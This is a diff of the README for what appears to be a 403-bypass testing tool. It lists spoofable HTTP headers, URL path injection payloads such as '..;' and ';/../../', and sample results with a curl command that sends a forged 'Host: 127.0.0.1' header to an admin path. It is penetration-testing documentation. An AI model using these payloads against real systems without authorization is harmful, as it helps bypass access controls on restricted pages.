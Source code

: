  Bypass `403 Forbidden` HTTP response status code:
 
 ```bash
@@ -309,29 +332,34 @@
 X-True-Client-IP
 X-True-IP
 X-Wap-Profile
 ```
 
 # URL Paths
 
-Inject at the beginning, end, and both, beginning and end of the URL path. All possible combinations.
+Inject at the beginning, end, and both, beginning and end of the URL path.
+
+You can use one payload set to test all positions simultaneously (sniper) or test using every possible combination of payload set (cluster bomb - default).
 
 ```fundamental
 /
 //
 %09
 %20
 %23
 %2e
+%a0
 *
 .
 ..
 ;
 .;
 ..;
+/;/
+;/../../
 ;foo=bar;
 ```
 
 Inject at the end of the URL path.
 
 ```fundamental
 #
@@ -377,40 +405,42 @@
     {
         "id": "860-HEADERS-3",
         "url": "https://example.com:443/admin",
         "method": "GET",
         "headers": [
             "Host: 127.0.0.1"
         ],
+        "cookies": [],
         "body": null,
-        "user_agent": "Forbidden/10.9",
-        "command": "curl --connect-timeout 60 -m 60 -iskL --max-redirs 10 --path-as-is -A 'Forbidden/10.9' -H 'Host: 127.0.0.1' -X 'GET' 'https://example.com:443/admin'",
+        "user_agent": "Forbidden/11.0",
+        "command": "curl --connect-timeout 60 -m 60 -iskL --max-redirs 10 --path-as-is -A 'Forbidden/11.0' -H 'Host: 127.0.0.1' -X 'GET' 'https://example.com:443/admin'",
         "code": 200,
         "length": 255408
     },
     {
         "id": "861-HEADERS-3",
         "url": "https://example.com:443/admin",
         "method": "GET",
         "headers": [
             "Host: 127.0.0.1:443"
 ```
